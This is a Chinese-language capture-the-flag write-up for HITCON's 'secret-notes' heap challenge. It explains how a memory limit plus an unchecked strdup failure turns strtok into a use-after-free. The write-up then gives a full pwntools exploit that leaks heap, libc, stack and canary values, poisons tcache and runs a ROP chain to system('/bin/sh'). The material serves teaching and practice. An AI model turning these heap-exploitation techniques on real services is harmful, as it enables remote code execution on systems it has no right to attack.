




# 题目信息

```text
secret-notes [342pts]
A place for you to save notes secretly.
No one except you can peek your notes after you logout, even if the server is compromised.

ncat secret-notes.chal.hitconctf.com 12387

secret-notes-7f375dc1638758d96acd7d2e34498496f6cd5783.tar.gz

Author: giver
9 Teams solved.
```

[secret-notes-7f375dc1638758d96acd7d2e34498496f6cd5783.tar.gz](https://github.com/hitconctf/ctf2025.hitcon.org/releases/download/v1.0.0/secret-notes-7f375dc1638758d96acd7d2e34498496f6cd5783.tar.gz)

# 题目分析

先恢复管理块结构：

```c
/* 9 */
struct __fixed struct_chunk
{
  int id;
  int len;
  __int64 org;
  __int64 title;
  __int64 key;
  __int64 note;
};
```

整个程序本身其实没有漏洞，**关键在程序启动的run.sh脚本**：

```bash
#!/bin/bash

set -e

cd "$(dirname ${BASH_SOURCE[0]})"

ulimit -m 8192    # 限制可使用内存的上限为 8192KB = 0x2000000 bytes
ulimit -d 131072  # 程序数据节区的最大值为 131072KB = 0x20000000 bytes

exec ./chal
```

**ulimit**是一个内置于 Linux shell 的命令，用于控制 shell 程序的资源使用。它允许用户查看或限制单个用户可以消耗的系统资源量。基本语法如下：

```bash
ulimit [-aHS] [-c <core文件上限>] [-d <数据节区大小>] [-f <文件大小>] [-m <内存大小>] [-n <文件数目>] [-p <缓冲区大小>] [-s <堆叠大小>] [-t <CPU时间>] [-u <程序数目>] [-v <虚拟内存大小>]
```

常用参数说明：

* `-a`：显示当前所有资源限制的设定。
* `-c <core文件上限>`：设定 core 文件的最大值，单位为区块。
* `-d <数据节区大小>`：程序数据节区的最大值，单位为 KB。
* `-f <文件大小>`：shell 所能建立的最大文件，单位为区块。
* `-H`：设定资源的硬性限制，只有管理员可以设定。
* `-m <内存大小>`：指定可使用内存的上限，单位为 KB。
* `-n <文件数目>`：指定同一时间最多可开启的文件数。
* `-p <缓冲区大小>`：指定管道缓冲区的大小，单位为 512 字节。
* `-s <堆叠大小>`：指定堆叠的上限，单位为 KB。
* `-S`：设定资源的弹性限制。
* `-t <CPU时间>`：指定 CPU 使用时间的上限，单位为秒。
* `-u <程序数目>`：用户最多可开启的程序数目。
* `-v <虚拟内存大小>`：指定可使用的虚拟内存上限，单位为 KB。

在申请note时，调用了`strdup`函数转存输入到bss段的内容：

```c
struct_chunk *__fastcall create_chunk_1C10(char *buf)
{
  struct_chunk *chunk; // rbx
  int id; // eax
  char *_buf; // rax
  char *note; // rax

  chunk = (struct_chunk *)malloc(0x28uLL);
  id = g_note_id_5010;
  chunk->id = g_note_id_5010;
  g_note_id_5010 = id + 1;
  _buf = strdup(buf);
  chunk->org = (__int64)_buf;
  chunk->title = (__int64)strtok(_buf, ": \t");
  chunk->key = (__int64)strtok(0LL, ":\n");
  note = strtok(0LL, "\r\n");
  chunk->note = (__int64)note;
  chunk->len = strlen(note);
  return chunk;
}
```

[`strdup`](https://elixir.bootlin.com/glibc/glibc-2.42/source/timezone/zic.c#L511)函数调用`malloc`申请内存：

```c
static char *
strdup(char const *str)
{
  char *result = malloc(strlen(str) + 1);
  return result ? strcpy(result, str) : result;
}
```

当`malloc`申请的内存大小大于阈值`nb >= mp_.mmap_threshold(128KB = 0x80000)`时，就会调用`mmap`申请一块独立的内存。当申请的内存大小超出`ulimit -m 8192`设置的`0x2000000`时，`malloc`和`strdup`就会返回NULL。

但是这里并没有检查`_buf == NULL`的情况，直接调用`strtok(_buf, ": \t");`进行字符串切分，但是**当[`strtok`](https://elixir.bootlin.com/glibc/glibc-2.42/source/string/strtok_r.c#L42)第一个参数为NULL时，会继续切分上一个字符串，如果此时上一个字符串处的内存已经被释放或修改，则有可能造成UAF**。

```c
char *
__strtok_r (char *s, const char *delim, char **save_ptr)
{
  char *end;

  if (s == NULL) // 第一个参数为NULL时从save_ptr取字符串
    s = *save_ptr;

  if (*s == '\0')
    {
      *save_ptr = s;
      return NULL;
    }

  /* Scan leading delimiters.  */
  s += strspn (s, delim); // 子串开头
  if (*s == '\0')
    {
      *save_ptr = s;
      return NULL; // 没找到直接返回NULL
    }

  /* Find the end of the token.  */
  end = s + strcspn (s, delim); // 子串结尾
  if (*end == '\0')
    {
      *save_ptr = end; // 如果子串结尾就是整个字符串结尾，save_ptr指向'\0'
      return s;
    }

  /* Terminate the token and make *SAVE_PTR point past it.  */
  *end = '\0';
  *save_ptr = end + 1; // 将结尾字符替换为'\0'，save_ptr指向'\0'的下一个位置
  return s;
}
```



> strtok(3)                                                                                         Library Functions Manual                                                                                        strtok(3)
>
> NAME
>        strtok, strtok_r - extract tokens from strings
>
> LIBRARY
>        Standard C library (libc, -lc)
>
> SYNOPSIS
>        #include <string.h>
>
>        char *strtok(char *restrict str, const char *restrict delim);
>        char *strtok_r(char *restrict str, const char *restrict delim,
>                       char **restrict saveptr);
>
>    Feature Test Macro Requirements for glibc (see feature_test_macros(7)):
>
>        strtok_r():
>            _POSIX_C_SOURCE
>                || /* glibc <= 2.19: */ _BSD_SOURCE || _SVID_SOURCE
>
> DESCRIPTION
>      The  strtok()  function  breaks  a  string into a sequence of zero or more nonempty tokens.  On the first call to strtok(), the string to be parsed should be specified in str.  **In each subsequent call that should parse the same string, str must be NULL.**
>
>    The delim argument specifies a set of bytes that delimit the tokens in the parsed string.  The caller may specify different strings in delim in successive calls that parse the same string.
>
>    Each call to strtok() returns a pointer to a null-terminated string containing the next token.  This string does not include the delimiting byte.  If no more tokens are found, strtok() returns NULL.
>
>    **A sequence of calls to strtok() that operate on the same string maintains a pointer that determines the point from which to start searching for the next token.  The first call to strtok()  sets  this  pointer  to point  to  the first byte of the string.  The start of the next token is determined by scanning forward for the next nondelimiter byte in str.  If such a byte is found, it is taken as the start of the next token.** If no such byte is found, then there are no more tokens, and strtok() returns NULL.  (A string that is empty or that contains only delimiters will thus cause strtok() to return NULL on the first call.)
>
>    The end of each token is found by scanning forward until either the next delimiter byte is found or until the terminating null byte ('\0') is encountered.  If a delimiter byte is found, it is overwritten  with  a null  byte  to terminate the current token, and strtok() saves a pointer to the following byte; that pointer will be used as the starting point when searching for the next token.  In this case, strtok() returns a pointer to the start of the found token.
>
>    From the above description, it follows that a sequence of two or more contiguous delimiter bytes in the parsed string is considered to be a single delimiter, and that delimiter bytes at the start or  end  of  the string  are ignored.  Put another way: the tokens returned by strtok() are always nonempty strings.  Thus, for example, given the string "aaa;;bbb,", successive calls to strtok() that specify the delimiter string ";," would return the strings "aaa" and "bbb", and then a null pointer.



当最后一个`\n`切割完毕后，`strtok`将结尾的`\n`替换为`\0`，将`save_ptr`指向字符串结尾`\0`的位置。如果此时我们想UAF继续切分字符串，则必须篡改该处的内存使之不为`\0`。

# 解题过程

## leak

要想利用UAF，且程序使不崩溃，我们需要：

1. 将原字符串结尾的`\0`覆盖为其他字节
2. 使覆盖后的字符串能被后面调用的两个`strtok`正常切割

除了tcache chunk外，其他类型chunk释放后仅会向chunk前0x10~0x30的位置写入指针，继续解析字符串时必定会被`\0`截断，所以无法利用。

tcache chunk释放后，chunk+0x18的位置会被写入tcache key，如果**字符串结束的位置刚好在tcache key的范围内**，释放后`\0`不仅会被覆盖，而且继续解析时不会被`\0`截断，由于`strdup`不会清空原来堆块上的残留数据，假如我们**提前在chunk+0x20开始的位置布置好满足条件的字符串**，即可使两个`strtok`正常切割。

**所以，0x20 tcache chunk满足利用条件**，PoC如下：

```python
    login('a'*31, b'b'*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2 提前布置好两个异或后的':'
    add(b'a'*6, b'b'*8, b'c'*0x6) #3
    
    dele(2)
    add(b'a'*1, b'b'*8, b'c') #4
    dele(4)
    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #5 fake
```

触发UAF之前：



触发UAF之后：



由于我们伪造的`key`只有1byte，但是**在加密`key`时会固定加密8bytes，所以此时会将下一个堆块头的size异或上password**，我们精心构造password即可改大size构造overlap chunk。

> [!tips]
>
> 这里可以将提前布置的`:`的位置后移，来控制size被异或几个字节。

之后，我们就可以在overlap chunk中布置一个管理块，用于泄露堆地址。这里我选择构造overlap chunk的大小为0x70：

```python
    fake_size = 0x31^0x71
    login('a'*31, p8(fake_size)*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2
    add(b'a'*6, b'b'*8, b'c'*0x16) #3: 布置2个0x30chunk，第一个用于构造overlap，第二个布置管理块用于泄露
    add(b'a'*6, b'b'*8, b'c'*0x6) #4
    add(b'a'*6, b'b'*8, b'c'*0x6) #5 gap
    add(b'a'*6, b'b'*8, p8(ord("b")^0x22)*0x416) #6: 为之后泄露libc用，先不用管
    add(b'a'*6, b'b'*8, b'c'*0x6) #7 gap

    dele(2)
    add(b'a'*1, b'b'*8, b'c') #8
    dele(8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #9 fake
```



```python
    dele(3) # 释放0x70 chunk和0x30 chunk
    dele(4) # 为0x70 chunk再准备一个管理块

    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p64(0)*5 + p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b"b"*8)
    add(b'a'*6, b'b'*8, payload) #10 -> 申请到0x70 chunk，note长度为0x55
    add(b'a'*6, b'b'*8, b'c'*0x6) #11
    dele(6)

    logout()
    login('a'*31, p8(0x22)*8) # 使password^key=0，绕过检查
    show(10)
    ru("\": ")
    res = rl().strip()
    heap_base = u64(res[0x28:0x30])- 0x420
    lg("heap_base", heap_base)
```



> [!tips]
>
> 一开始本来是将overlap chunk设为0x60大小的，但后来发现由于在加密时会多加密1byte，后续利用过程中伪造管理块中的堆指针时会出错，所以只能再多加0x10，覆盖到overlap chunk自己的管理块的`id`，多加密的1byte正好是`size`，不会影响伪造的结果。

泄露出堆地址之后，我们就可以伪造管理块，实现任意地址读了。这里既可以伪造`title`指针，也可以伪造`note`指针，这里我选择使用`title`泄露，固定`key`和`note`指向合法位置方便过检查。进一步泄露libc基址：

```python
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(heap_base + 0x4c0) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #12 -> 0x70 chunk
    show(11)
    ru("note \"")
    libc_base = u64(rv(6).ljust(8, b'\x00')) - 0x209b20
    lg("libc_base", libc_base)
```


## exploit

我们已经泄露了堆地址，所以可以伪造tcache chunk的next指针实现任意地址分配，有很多种方法可以完成利用，这里我选择泄露environ栈地址，而后往`add_1E30`函数的返回地址处写ROP。

这里还要先泄露canary，因为输入内容开头有`title`和`key`至少10bytes的内容，且该部分不能有`\x00`，所以只能往至少是`ret_addr-10`的位置开始写，所以一定会覆盖到canary。此外，伪造的tcache chunk必须0x10对齐，`add_1E30`函数的返回地址处低4位为0x8。

所以这里我们申请`ret_addr-0x18`的位置：

* `title`写8bytes，会覆盖到一个note的指针（但是`create_chunk_1C10`返回值会存入这个变量，因此覆盖为任意值都没事）
* 第一个`:`布置到canary最低1byte的位置，`strtok`之后刚好会被覆盖为`\x00`
* `key`写8字节，为canary高7bytes加上任意1字节，会覆盖到`rbp`第0byte
* 第二个`:`会覆盖到`rbp`第1byte
* `note`开头写任意6bytes，覆盖到`rbp`高6bytes

之后就可以正常ROP了。

```python {hide=true}
    logout()
    login("a"*31, p8(0x40)*8)

    # leak environ
    environ = libc_base + 0x20a6e0
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(heap_base + 0x470) # org
    payload += p64(environ) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #13
    logout()
    login('a'*31, p8(0x22)*8)
    show(11)
    ru("note \"")
    stack_addr = u64(rv(6).ljust(8, b'\x00'))
    lg("stack_addr", stack_addr)

    # leak canary
    canary_addr = libc_base - 0x2898
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x101) # 为了满足ROP的输入长度，将原来0x30 chunk伪造为0x100 chunk
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(canary_addr+1) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #14
    show(11)
    ru("note \"")
    canary = u64(rv(7).rjust(8, b'\x00'))
    lg("canary", canary)

    add(b'a'*6, b'b'*8, b'c'*0xe6) #15 -> 0x100 chunk
    dele(15) # free 0x100 tcache chunk

    logout()
    login('a'*31, p8(0)*8)
    dele(11) # free fake 0x100 tcache chunk

    logout()
    login('a'*31, p8(0x40)*8)
    dele(10)

    ret_addr = stack_addr - 0x150
    protect_ptr = (ret_addr-0x18) ^ ((heap_base+0x3c0)>>12) # modify 0x100 tcache chunk's next
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p64(protect_ptr)
    payload += p64(0)*4
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #16

    payload = b""
    payload += p64(0)*3
    payload += p64(0x31)
    payload += p32(0xa) + p32(0x36)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x397)
    payload += p64(heap_base + 0x3a0)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0x5) + p32(0x6)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x477)
    payload += p64(heap_base + 0x480)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0xf0) + p32(0x11)
    payload += p64(0)*2
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #17

    dele(5)
    logout()
    login(b'a'*31, b'\x00'*8)

    prdi = libc_base + 0x0000000000102e2a
    ret = libc_base + 0x0000000000024578
    system = libc_base + 0x0000000000053b00
    binsh = libc_base + 0x00000000001b0ebc
    rop = b'\x00'*6
    rop += p64(ret)
    rop += p64(prdi)
    rop += p64(binsh)
    rop += p64(system)
    rop = rop.ljust(0xe4, b'\x00')
    rop = enc(rop, p64(canary)[1:]+p8(1))
    add(b'a'*8, p64(canary)[1:]+p8(1), rop)
```


# Exp

```python
from pwn import *

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = None
elf = None
p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def conn(local=1):
    global p, libc, elf
    pc = './chal'
    libc = ELF('./libc.so.6')
    elf = ELF(pc)

    if local == 1:
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        p = process(pc,aslr=aslr)
    else:
        remote_addr = ['secret-notes.chal.hitconctf.com', 12387]
        #remote_addr = ['127.0.0.1', 12387]
        p = remote(remote_addr[0], remote_addr[1])

def login(user, psw):
    ru('action: ')
    sl("1")
    ru("username: ")
    sn(user)
    ru("password: ")
    sn(psw)

def add(title, key, content):
    ru("action: ")
    sl("1")
    ru("headers: ")
    payload = title + b":" + key + b":" + content + b'\n'
    sl(str(len(payload)))
    ru("note: ")
    sn(payload)

def show(idx):
    ru("action: ")
    sl("2")
    ru("id: ")
    sl(str(idx))

def dele(idx):
    ru("action: ")
    sl("3")
    ru("id: ")
    sl(str(idx))

def logout():
    ru('action: ')
    sl("4")

def enc(content, key):
    res = b""
    for i in range(len(content)//8):
        res += p64(u64(content[i*8:i*8+8]) ^ u64(key))

    p = (len(content)>>3)<<3
    for i in range(len(content)%8):
        res += p8(content[p+i]^key[i])

    return res

if __name__ == "__main__":
    conn(0)

    fake_size = 0x31^0x71
    login('a'*31, p8(fake_size)*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2
    add(b'a'*6, b'b'*8, b'c'*0x16) #3
    add(b'a'*6, b'b'*8, b'c'*0x6) #4
    add(b'a'*6, b'b'*8, b'c'*0x6) #5 gap
    add(b'a'*6, b'b'*8, p8(ord("b")^0x22)*0x416) #6
    add(b'a'*6, b'b'*8, b'c'*0x6) #7 gap

    dele(2)
    add(b'a'*1, b'b'*8, b'c') #8
    dele(8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #9 fake
    dele(3)
    dele(4)

    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p64(0)*5 + p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b"b"*8)
    add(b'a'*6, b'b'*8, payload) #10 -> 0x70 chunk
    add(b'a'*6, b'b'*8, b'c'*0x6) #11
    dele(6)

    logout()
    login('a'*31, p8(0x22)*8)
    show(10)
    ru("\": ")
    res = rl().strip()
    heap_base = u64(res[0x28:0x30])- 0x420
    lg("heap_base", heap_base)

    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(heap_base + 0x4c0) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #12 -> 0x70 chunk
    show(11)
    ru("note \"")
    libc_base = u64(rv(6).ljust(8, b'\x00')) - 0x209b20
    lg("libc_base", libc_base)

    logout()
    login("a"*31, p8(0x40)*8)

    environ = libc_base + 0x20a6e0
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(heap_base + 0x470) # org
    payload += p64(environ) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #13
    logout()
    login('a'*31, p8(0x22)*8)
    show(11)
    ru("note \"")
    stack_addr = u64(rv(6).ljust(8, b'\x00'))
    lg("stack_addr", stack_addr)

    canary_addr = libc_base - 0x2898
    dele(10)
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p32(0xb) + p32(6) # id length
    payload += p64(0) # org
    payload += p64(canary_addr+1) # title
    payload += p64(heap_base + 0x4d0) # key
    payload += p64(heap_base + 0x4e0) # note
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #14
    show(11)
    ru("note \"")
    canary = u64(rv(7).rjust(8, b'\x00'))
    lg("canary", canary)

    add(b'a'*6, b'b'*8, b'c'*0xe6) #15 -> 0x100 chunk
    dele(15)

    logout()
    login('a'*31, p8(0)*8)
    dele(11)

    logout()
    login('a'*31, p8(0x40)*8)
    dele(10)

    ret_addr = stack_addr - 0x150
    protect_ptr = (ret_addr-0x18) ^ ((heap_base+0x3c0)>>12)
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p64(protect_ptr)
    payload += p64(0)*4
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #16

    payload = b""
    payload += p64(0)*3
    payload += p64(0x31)
    payload += p32(0xa) + p32(0x36)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x397)
    payload += p64(heap_base + 0x3a0)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0x5) + p32(0x6)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x477)
    payload += p64(heap_base + 0x480)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0xf0) + p32(0x11)
    payload += p64(0)*2
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #17

    dele(5)
    logout()
    login(b'a'*31, b'\x00'*8)

    prdi = libc_base + 0x0000000000102e2a
    ret = libc_base + 0x0000000000024578
    system = libc_base + 0x0000000000053b00
    binsh = libc_base + 0x00000000001b0ebc
    rop = b'\x00'*6
    rop += p64(ret)
    rop += p64(prdi)
    rop += p64(binsh)
    rop += p64(system)
    rop = rop.ljust(0xe4, b'\x00')
    rop = enc(rop, p64(canary)[1:]+p8(1))
    add(b'a'*8, p64(canary)[1:]+p8(1), rop)

    p.interactive()
```

